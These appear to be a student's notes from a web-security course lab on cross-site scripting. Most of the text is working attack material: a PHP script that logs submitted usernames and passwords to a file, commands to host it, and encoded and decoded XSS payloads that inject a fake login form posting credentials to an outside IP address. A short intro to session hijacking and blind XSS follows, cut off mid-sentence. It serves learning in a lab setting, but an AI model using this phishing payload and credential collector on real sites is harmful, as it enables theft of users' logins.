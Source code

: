 
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
```



```shell
cd /tmp/tmpserver
vi index.php #at this step we wrote our index.php file
 sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```


```
http://10.129.109.137/phishing/index.php?url=%27onerror=document.write(%27%3Ch3%3EPlease%20login%20to%20continue%3C/h3%3E%3Cform%20action=%27http://10.10.16.46%27%3E%3Cinput%20type=%22username%22%20name=%22username%22%20placeholder=%22Username%22%3E%3Cinput%20type=%22password%22%20name=%22password%22%20placeholder=%22Password%22%3E%3Cinput%20type=%22submit%22%20name=%22submit%22%20value=%22Login%22%3E%3C/form%3Edocument.getElementById(%22urlform%22).remove()%3C/script%3E


```

' onerror=document.write("<h3>Please login to continue</h3><form action='http://10.10.16.46'><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>");document.getElementById("urlform").remove()

url=document.write(%27%3Ch3%3EPlease%20login%20to%20continue%3C/h3%3E%3Cform%20action=http://10.10.16.46%3E%3Cinput%20type=%22username%22%20name=%22username%22%20placeholder=%22Username%22%3E%3Cinput%20type=%22password%22%20name=%22password%22%20placeholder=%22Password%22%3E%3Cinput%20type=%22submit%22%20name=%22submit%22%20value=%22Login%22%3E%3C/form%3E%27);document.getElementById(%27urlform%27).remove(

the exercise here is fucked as you dont actually remove the form field but i just copied the url from the course and it works


# Session Hijacking

With the ability to execute JavaScript code on the victim's browser, we may be able to collect their cookies and send them to our server to hijack their logged-in session by performing a `Session Hijacking` (aka `Cookie Stealing`) attack.

## Blind XSS Detection

 A Blind XSS vulnerability occurs when the vulnerability is triggered on a page we don't have access to.
Blind XSS vulnerabilities usually occur with forms only accessible by certain users (e.g., Admins). Some potential examples include:
